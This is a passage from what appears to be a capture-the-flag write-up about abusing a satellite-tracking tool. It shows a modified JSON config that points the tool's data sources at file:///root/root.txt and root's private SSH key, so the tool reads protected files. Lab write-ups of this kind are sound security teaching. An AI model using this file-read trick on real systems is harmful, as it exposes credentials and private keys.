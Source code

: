 It hangs on each source, timing out unable to resolve each host. There’s an empty file for each in the TLE directory:

```

jovian@jupiter:~$ ls -l /tmp/tle/
total 0
-rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10 'gp.php?GROUP=starlink&FORMAT=tle'
-rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10  noaa.txt
-rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10  weather.txt

```

### File Read

One way to abuse this is to use the `file://` protocol handler. I’ll replace the fetched URIs with attempts to read `root.txt` and an private SSH key:

```

{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "file:///root/root.txt",
                "file:///root/.ssh/id_rsa"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}

```
